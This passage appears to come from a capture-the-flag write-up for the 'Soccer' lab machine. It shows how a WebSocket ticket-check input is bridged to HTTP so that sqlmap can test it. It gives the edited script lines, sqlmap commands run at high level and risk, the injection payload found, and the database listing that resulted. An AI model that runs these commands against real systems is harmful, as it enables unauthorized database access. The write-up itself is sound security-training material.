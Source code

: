 As you can see this page's ticket check input works with the 9091 port we found in the beginning as a WebSocket.
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
What you can see in this article is a sqli vulnerability in websocket. By following this article you can see a python program that creates a http server and sends all the websocket data to it and then you can run sqli scripts or programs(like sqlmap) that will maybe find a vulnerability. So in the program you need to edit just 2 things as follows:

```

ws_server = "ws://soc-player.soccer.htb:9091" # Line 6
...
data = '{"id":"%s"}' % message

```

after editing the program run it.

```

Window 1: $ python3 websocketToHttpServer.py
Window 2: $ sudo python sqlmap.py -u "http://localhost:8081/?id=1" -p 'id' --dbms='MySQL' --technique="UB" --level 5 --risk 3

```

As you can see I ran sqlmap on the server and the output was:

```

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N                                                    
sqlmap identified the following injection point(s) with a total of 334 HTTP(s) requests:                                                      
---                                                                                                                                           
Parameter: id (GET)                                                                                                                           
    Type: boolean-based blind                                                                                                                 
    Title: OR boolean-based blind - WHERE or HAVING clause                                                                                    
    Payload: id=-2653 OR 3320=3320                                                                                                            
---                                 

```

as you can see the `id` parameter is vulnerable, I knew the Database Management System is MySQL because of my enumeration that I did on the www-data user. 
After finding the vulnerability I ran another command now to retrive the database names:

```
$ sudo python sqlmap.py -u "http://localhost:8081/?id=1" -p 'id' --dbms='MySQL' --technique="UB" --level 5 --risk 3 --dbs
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
``` 

